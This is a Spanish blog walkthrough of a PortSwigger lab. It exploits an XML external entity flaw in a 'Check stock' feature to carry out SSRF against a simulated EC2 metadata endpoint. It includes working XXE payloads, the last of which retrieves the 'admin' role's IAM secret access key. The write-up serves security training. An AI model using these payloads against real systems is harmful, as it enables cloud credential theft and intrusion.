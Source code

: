 ```yaml
---
title: Exploiting XXE to perform SSRF attacks
description: Laboratorio de Portswigger sobre XXE
date: 2024-11-27 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - XXE
tags:
  - Portswigger Labs
  - XXE
  - Exploiting XXE to perform SSRF attacks
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio tiene una función llamada `Check stock` que analiza la `entrada` en `formato XML` y devuelve cualquier valor inesperado en la respuesta. El `servidor` del laboratorio está ejecutando un `endpoint` de `metadatos` de `EC2 (simulado)` en la `URL` predeterminada, que es `[http://169.254.169.254/](http://169.254.169.254/)`. Este `endpoint` puede usarse para obtener datos sobre la instancia, algunos de los cuales podrían ser sensibles. Para `resolver` el `laboratorio`, hay que `explotar` la vulnerabilidad `XXE` para llevar a cabo un ataque `SSRF` que `obtenga` la `clave secreta` de acceso `IAM` del servidor desde el `endpoint` de `metadatos` de `EC2`

---

## Guía de XXE

`Antes` de `completar` este `laboratorio` es recomendable `leerse` esta `guía de XXE` [https://justice-reaper.github.io/posts/XXE-Guide/](https://justice-reaper.github.io/posts/XXE-Guide/)

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XXE-Injection-Lab-2/image_1.png)

Si pulsamos en `View details` veremos la `descripción` del `artículo`

![](/assets/img/XXE-Injection-Lab-2/image_2.png)

Si pulsamos en `Check stock` y `capturamos` la `petición` con `Burpsuite` vemos que se está tramitando un `XML`

![](/assets/img/XXE-Injection-Lab-2/image_3.png)

Vamos a insertar un `DTD (Document Type Definition)` y a `comprobar` si es `vulnerable` a `XXE`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY xxe "Doe"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Obtenemos `Doe` lo que quiere decir que ha funcionado y probablemente sea `vulnerable` a un `XXE`

![](/assets/img/XXE-Injection-Lab-2/image_4.png)

Con este `payload` hacemos un petición al `endpoint`, por lo cual estaríamos explotando un `SSRF (Server Side Request Forgery)` a través de un `XXE`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

La `respuesta` del `servidor` nos `devuelve` el `nombre`, en este caso es `latest`, debemos ir haciendo peticiones hasta `obtener` la `ruta` del `endpoint` completa

![](/assets/img/XXE-Injection-Lab-2/image_5.png)

Con este nuevo `payload` obtenemos la `secret acces key` del usuario `admin`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

![](/assets/img/XXE-Injection-Lab-2/image_6.png)
